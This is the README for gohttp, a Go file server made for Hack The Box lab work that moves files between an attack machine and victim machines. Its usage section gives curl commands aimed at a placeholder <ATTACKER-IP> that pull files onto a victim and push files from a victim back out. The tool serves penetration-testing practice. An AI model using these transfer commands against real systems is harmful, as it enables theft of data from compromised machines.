 # gohttp
While playing on *hackthebox.com* I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### easy install
```bash
go install github.com/hebelsan/gohttp
```
### docker
```bash
TODO
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must be inside the directory where `gohttp` is executed.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration

### Authentication
If you are scared that somebody else in your network 
either get's access to your files or uploads random
files without your permission set:
```bash
export AUTH=API-KEY
```
This will generate a new api key on startup and after each request.  
The key is printed to the console and has to be passed 
as `X-API-KEY` header:
```bash
curl -H "X-API-KEY: F94CE8F8-2E28-7806-94A4-8DF3FB722814" -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

### Port
Per default port 80 is used. To change it:
```bash
export PORT=4444
```
